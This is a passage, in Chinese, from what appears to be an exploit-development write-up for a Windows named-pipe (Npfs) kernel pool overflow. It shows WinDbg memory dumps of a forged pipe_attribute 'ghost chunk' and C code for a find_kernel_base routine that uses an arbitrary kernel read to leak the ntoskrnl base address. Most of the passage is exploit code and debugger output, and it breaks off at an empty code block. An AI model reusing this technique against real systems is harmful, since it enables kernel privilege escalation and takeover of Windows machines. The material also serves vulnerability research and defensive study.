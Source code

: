 
xploit->ghost_chunk=pipe_attribute->AttributeName-sizeof(pipe_attribute)-sizeof(_pool_header)是ffffad09df3f8ab8-0x28-0x10=ffffad09df3f8a80.

效果如图:

![查看大图](https://s4.ax1x.com/2021/12/30/TRsOr4.png)

接下来重写漏洞块给幽灵块伪造一个Fake_Pipe_Attribute,使pipe_attribute->list.Flink指向一个用户态内存的可控另一个用户态pipe_attribute结构,就能使用get_pipe_attribute读取fake_pipe_attribute->AttributeValue指向的任意内核态指定大小地址的内存.
```
//xploit->setup_ghost_overwrite(xploit, rewrite_buf);执行之后
1: kd> dc poi(g_Buffer)-10 L100;
ffffad09`df3f8a40  03190000 7441704e 00000000 00000000  ....NpAt........
ffffad09`df3f8a50  e053bef0 ffffad09 e053bef0 ffffad09  ..S.......S.....
ffffad09`df3f8a60  df3f8a78 ffffad09 00000156 00000000  x.?.....V.......
ffffad09`df3f8a70  df3f8a7a ffffad09 4545005a 45454545  z.?.....Z.EEEEEE
ffffad09`df3f8a80  45454545 45454545 45454545 45454545  EEEEEEEEEEEEEEEE
//pipe_attribute->list.Flink指向一个用户态内存00000145`2f29e4b0
ffffad09`df3f8a90  2f29e4b0 00000145 cafeb00b deadbeef  ..)/E...........
ffffad09`df3f8aa0  44c386d0 00007ff6 00000001 00000000  ...D............
ffffad09`df3f8ab0  44c386d0 00007ff6 45454545 45454545  ...D....EEEEEEEE
指向一个用户态内存一个可控的伪造pipe_attribute结构体
0: kd> dc 00000145`2f29e4b0
00000145`2f29e4b0  cafe0000 deaddead cafe0000 deaddead  ................
00000145`2f29e4c0  b6e886cc 00007ff7 00000100 00000000  ................
00000145`2f29e4e0  cafeaaaa deadbeef fdfdfdfd dddddddd  ................
00000145`2f29e4f0  dddddddd dddddddd d23b27c4 0c008cd8  .........';.....

```
作者使用任意读的原语实现了一个很巧妙的方式获取nt模块的基址,这些符号在不同的不同windows版本存在差异(笔者实现了解决方法),具体为如下方式
```
void find_kernel_base(xploit_t* xploit)
{
	uintptr_t file_object_ptr = 0;
	uintptr_t file_object;
	uintptr_t device_object;
	uintptr_t driver_object;
	uintptr_t NpFsdCreate;
	uintptr_t ExAllocatePoolWithTag;
	//xploit->leak_root_attribute就是rcx=ffffad09df8c7ad0
    uintptr_t file_object_ptr = xploit->leak_root_attribute - ROOT_PIPE_ATTRIBUTE_OFFSET + FILE_OBJECT_OFFSET;
    // FsContext2 structure of NPFS. Find the pointer on the file object in the structure  
    xploit->leak_root_queue = xploit->leak_root_attribute - ROOT_PIPE_ATTRIBUTE_OFFSET + ROOT_PIPE_QUEUE_ENTRY_OFFSET;	
	// Get the leak of ntoskrnl and npfs
	exploit_arbitrary_read(xploit, file_object_ptr, (char*)&file_object, 0x8);
	printf("[+] File object is : 0x%llx\n", file_object);
	exploit_arbitrary_read(xploit, file_object + 8, (char*)&device_object, 0x8);
	printf("[+] Device object is : 0x%llx\n", device_object);
	exploit_arbitrary_read(xploit, device_object + 8, (char*)&driver_object, 0x8);
	printf("[+] Driver object is : 0x%llx\n", driver_object);
	exploit_arbitrary_read(xploit, driver_object + 0x70, (char*)&NpFsdCreate, 0x8);
	printf("[+] Major function is : 0x%llx\n", NpFsdCreate);
	uintptr_t ExAllocatePoolWithTag_ptr = NpFsdCreate - NPFS_NPFSDCREATE_OFFSET + NPFS_GOT_ALLOCATEPOOLWITHTAG_OFFSET;	
	exploit_arbitrary_read(xploit, ExAllocatePoolWithTag_ptr, (char*)&ExAllocatePoolWithTag, 0x8);
	printf("[+] ExAllocatePoolWithTag is : 0x%llx\n", ExAllocatePoolWithTag);
	xploit->kernel_base = ExAllocatePoolWithTag - NT_ALLOCATEPOOLWITHTAG_OFFSET;
	printf("[+] kernel_base is : 0x%llx\n", xploit->kernel_base);
}
```
通过调试发现,函数Npfs!NpSetAttributeInList在执行过程中它的第一个参数rcx=ffffad09df8c7ad0如果为一个正常pipe_attribute结构体指针,那么它就和当前irp请求的file_object->FsContext2中的这个字段存在一定关系,接下来验证这个结果
```
```